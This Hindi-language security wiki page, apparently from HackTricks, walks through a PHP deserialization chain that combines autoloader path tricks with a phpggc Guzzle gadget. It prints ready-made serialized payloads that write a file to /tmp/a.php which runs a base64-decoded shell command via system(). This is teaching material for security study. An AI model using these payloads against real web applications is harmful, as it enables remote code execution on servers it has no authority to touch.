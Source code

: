 # PHP - Deserialization + Autoload Classes

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **अपनी हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके.

</details>

सबसे पहले, आपको यह जांचना चाहिए कि [**Autoloading Classes**](https://www.php.net/manual/en/language.oop5.autoload.php) क्या हैं।

## PHP deserialization + spl\_autoload\_register + LFI/Gadget

हम एक परिस्थिति में हैं जहां हमने एक **PHP deserialization वेबऐप में पाया** है जिसमें **`phpggc`** के अंदर कोई भी लाइब्रेरी गैजेट्स के लिए असुरक्षित नहीं है। हालांकि, उसी कंटेनर में एक **अलग कंपोजर वेबऐप था जिसमें असुरक्षित लाइब्रेरीज थीं**। इसलिए, लक्ष्य था **दूसरे वेबऐप के कंपोजर लोडर को लोड करना** और उसका उपयोग करके **एक गैजेट को लोड करना जो उस लाइब्रेरी का उपयोग करके गैजेट के साथ शोषण करेगा** जो deserialization के लिए असुरक्षित वेबऐप है।

चरण:

* आपने एक **deserialization पाया है** और वर्तमान ऐप कोड में **कोई भी गैजेट नहीं है**
* आप **`spl_autoload_register`** फंक्शन का उपयोग करके किसी भी स्थानीय फाइल को **`.php` एक्सटेंशन के साथ लोड कर सकते हैं**
* इसके लिए आप एक deserialization का उपयोग करते हैं जहां क्लास का नाम **`$name`** के अंदर होगा। आप **क्लास नाम में "/" या "." का उपयोग नहीं कर सकते** serialized object में, लेकिन **कोड** **underscores** ("\_") को **slashes** ("/") से **बदल रहा है**। इसलिए एक क्लास नाम जैसे `tmp_passwd` को `/tmp/passwd.php` में बदल दिया जाएगा और कोड उसे लोड करने की कोशिश करेगा।\
एक **गैजेट उदाहरण** होगा: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
यदि आपके पास **फाइल अपलोड** है और आप **`.php` एक्सटेंशन** वाली फाइल अपलोड कर सकते हैं, तो आप सीधे इस कार्यक्षमता का **दुरुपयोग कर सकते हैं** और RCE प्राप्त कर सकते हैं।
{% endhint %}

मेरे मामले में, ऐसा कुछ नहीं था, लेकिन **उसी कंटेनर** के अंदर एक और कंपोजर वेब पेज था जिसमें एक **`phpggc` गैजेट के लिए असुरक्षित लाइब्रेरी** थी।

* इस अन्य लाइब्रेरी को लोड करने के लिए, पहले आपको उस अन्य वेब ऐप के कंपोजर लोडर को **लोड करना होगा** (क्योंकि वर्तमान एप्लिकेशन का वाला दूसरे की लाइब्रेरीज तक पहुँच नहीं सकता।) **एप्लिकेशन का पथ जानकर**, आप बहुत आसानी से यह कर सकते हैं: **`O:28:"www_frontend_vendor_autoload":0:{}`** (मेरे मामले में, कंपोजर लोडर `/www/frontend/vendor/autoload.php` में था)
* अब आप **दूसरे ऐप के कंपोजर लोडर को लोड** कर सकते हैं, इसलिए अब समय है **`phpggc` पेलोड जेनरेट करने का**। मेरे मामले में, मैंने **`Guzzle/FW1`** का उपयोग किया, जिसने मुझे **फाइल सिस्टम के अंदर कोई भी फाइल लिखने की अनुमति दी**।
* ध्यान दें: **जेनरेट किया गया गैजेट काम नहीं कर रहा था**, इसे काम करने के लिए मैंने phpggc के **`chain.php`** पेलोड को **संशोधित** किया और सभी क्लासेस के एट्रिब्यूट्स को **निजी से सार्वजनिक में बदल दिया**। अन्यथा, स्ट्रिंग को डिसीरियलाइज करने के बाद, बनाई गई ऑब्जेक्ट्स के एट्रिब्यूट्स में कोई मान नहीं होते थे।
* अब हमारे पास दूसरे ऐप के कंपोजर लोडर को लोड करने का तरीका है और एक **काम करने वाला `phpggc` पेलोड** भी है, लेकिन हमें इसे **एक ही अनुरोध में करने की जरूरत है ताकि लोडर गैजेट के इस्तेमाल के समय लोड हो जाए**। इसके लिए, मैंने दोनों ऑब्जेक्ट्स के साथ एक सीरियलाइज्ड ऐरे भेजा जैसे:
* आप देख सकते हैं **पहले लोडर लोड हो रहा है और फिर पेलोड**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* अब, हम **फाइल बना और लिख सकते हैं**, परंतु उपयोगकर्ता **वेब सर्वर के अंदर किसी भी फोल्डर में लिख नहीं सकता**। इसलिए, जैसा कि आप पेलोड में देख सकते हैं, PHP **`system`** को कुछ **base64** के साथ कॉल करता है जो **`/tmp/a.php`** में बनाया गया है। फिर, हम **पहले प्रकार के पेलोड का पुन: उपयोग कर सकते हैं** जिसे हमने LFI के रूप में इस्तेमाल किया था ताकि दूसरे वेबऐप के कंपोजर लोडर को लोड कर सकें ताकि उत्पन्न `/tmp/a.php` फाइल को लोड कर सकें। बस इसे डिसेरियलाइजेशन गैजेट में जोड़ दें:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**पेलोड का सारांश**

* एक ही कंटेनर में अलग वेबऐप का **कंपोजर ऑटोलोड लोड करें**
* दूसरे वेबऐप की लाइब्रेरी का दुरुपयोग करने के लिए **phpggc गैजेट लोड करें** (प्रारंभिक वेबऐप जो डिसेरियलाइजेशन के लिए संवेदनशील था, उसकी लाइब्रेरीज में कोई गैजेट नहीं था)
* गैजेट /tmp/a.php में एक PHP पेलोड वाली फाइल **बनाएगा** जिसमें दुर्भावनापूर्ण कमांड होंगे (वेबऐप यूजर किसी भी वेबऐप के किसी भी फोल्डर में लिख नहीं सकता)
* हमारे पेलोड का अंतिम भाग **जनरेटेड PHP फाइल को लोड करेगा** जो कमांड्स को निष्पादित करेगा

मुझे इस डिसेरियलाइजेशन को **दो बार कॉल करने की आवश्यकता थी**। मेरे परीक्षण में, पहली बार `/tmp/a.php` फाइल बनी थी लेकिन लोड नहीं हुई थी, और दूसरी बार यह सही ढंग से लोड हुई थी।

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>यहाँ क्लिक करें</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>
